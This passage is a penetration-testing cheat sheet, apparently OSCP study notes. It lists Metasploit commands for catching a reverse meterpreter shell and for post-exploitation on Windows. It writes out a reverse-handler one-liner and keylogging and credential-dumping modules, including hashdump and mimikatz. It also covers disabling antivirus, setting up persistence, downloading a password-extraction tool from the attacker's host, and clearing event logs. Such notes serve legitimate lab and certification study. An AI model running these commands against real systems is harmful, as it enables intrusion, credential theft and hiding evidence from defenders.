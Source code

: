 	[*] Started reverse handler on 10.10.10.160:4445
	[*] Starting the payload handler...

	msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 10.10.10.160;set LPORT 4445;run;"	#multi handler one liner

	cmd victim: evil2.exe
	PS victim: PS C:\windows\temp> . .\evil2.exe
	
**Post-exploitation** - [getting_meterpreter_shell](https://sushant747.gitbooks.io/total-oscp-guide/getting_meterpreter_shell.html)
	
*meterpreter shell:*  [meterpreter cheatsheet](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)

	ps; run migrate -p 1337
	use post/   		 			#tab for completion
	background -l            			#List background sessions
	background -i 1          			#Connect back to a background session
	execute -f c:\\windows\temp\exploit.exe		#run .exe on target
	getsystem					#try privesc thru meterpreter
	keysscan_start; keyscan_dump; keyscan_stop
	
*Privesc thru meterpreter post module:*

	Ctr-z
	Background session 1? [y/N]  y
	use exploit/windows/local/service_permissions
	use post/windows/gather/credentials/vnc
	use post/windows/gather/credentials/gpp
	load mimikatz -> wdigest
	run post/multi/recon/local_exploit_suggester
	run post/windows/gather/smart_hashdump			#Automated dumping of sam file, tries to esc privileges etc
	run post/windows/gather/credential_collector 
	
	run post/windows/gather/win_privs			#show privileges of current user
	run post/windows/gather/local_admin_search_enum
	run post/windows/gather/enum_shares
	run post/windows/gather/enum_snmp
	run post/windows/gather/enum_applications
	run post/windows/gather/enum_logged_on_users
	run post/windows/gather/checkvm
	sessions -l		#show sessions
	sessions -i 1		#connect to it again
	
*Requires administrative rights [rooted]:*

	killav	
	hashdump
	persistence		#(https://www.hackingarticles.in/multiple-ways-to-persistence-on-windows-10-with-metasploit/)
	# using WCE to get cleartext passwd
	cd /usr/share/windows-resources/wce; python3 -m http.server 9000   
	PS victim: Invoke-WebRequest -Uri http://10.10.10.160:9000/wce64.exe -OutFile wce64.exe
	PS victim: . .\wce64.exe -w		#Retrieving user passwords in cleartext 
	meterpreter> run clearlogs | clearev		#clear log
	